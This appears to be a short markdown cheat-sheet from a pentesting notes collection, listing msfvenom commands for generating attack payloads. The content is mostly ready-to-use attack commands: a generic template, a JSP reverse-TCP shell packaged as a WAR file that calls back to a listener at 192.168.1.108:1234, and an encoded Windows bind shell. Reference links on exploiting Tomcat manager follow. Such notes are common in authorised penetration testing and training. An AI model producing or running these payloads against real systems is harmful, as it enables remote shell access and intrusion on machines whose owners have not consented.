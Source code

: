 # Generating Attack Payload

## MSFvenom

    $ msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]
    $ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.108 LPORT=1234 -f war > shell.war
    $ msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python

## References

* https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
* https://www.offensive-security.com/metasploit-unleashed/msfvenom/
* https://medium.com/@hakluke/haklukes-guide-to-hacking-without-metasploit-1bbbe3d14f90